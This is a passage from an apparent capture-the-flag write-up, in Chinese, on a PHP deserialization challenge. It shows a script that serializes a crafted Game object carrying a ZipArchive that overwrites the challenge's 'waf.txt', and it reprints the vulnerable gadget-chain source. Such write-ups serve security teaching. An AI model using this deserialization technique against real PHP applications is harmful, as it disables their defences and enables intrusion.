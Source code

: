```plain
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new ZipArchive();
$a->filename='waf.txt';
$a->content=8;//或者 ZipArchive::OVERWRITE
echo base64_encode(serialize($a));
```

之后构造链子绕过正则即可得到 flag

```plain
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
```